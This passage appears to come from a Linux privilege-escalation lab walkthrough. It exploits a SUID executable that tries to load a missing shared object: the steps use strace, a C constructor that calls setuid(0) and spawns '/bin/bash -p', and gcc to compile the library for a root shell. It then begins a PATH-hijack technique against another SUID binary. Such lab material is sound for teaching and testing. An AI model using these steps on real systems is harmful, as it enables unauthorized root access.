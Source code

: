 1. First, execute the file and note that currently it displays a progress bar before exiting:

```
/usr/local/bin/suid-so
```

2. Run strace on the file and search the output for open/access calls and for "no such file" errors:

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

3.   Create the .config directory for the libcalc.so file:

```
mkdir /home/user/.config
```

4. Create the libcalc.c with the following:

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}

```

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

5. Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

```
/usr/local/bin/suid-so
```

## SUID / SGID Executables - Environment Variables 
The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

1. First, execute the file and note that it seems to be trying to start the apache2 webserver:

```
/usr/local/bin/suid-env
```
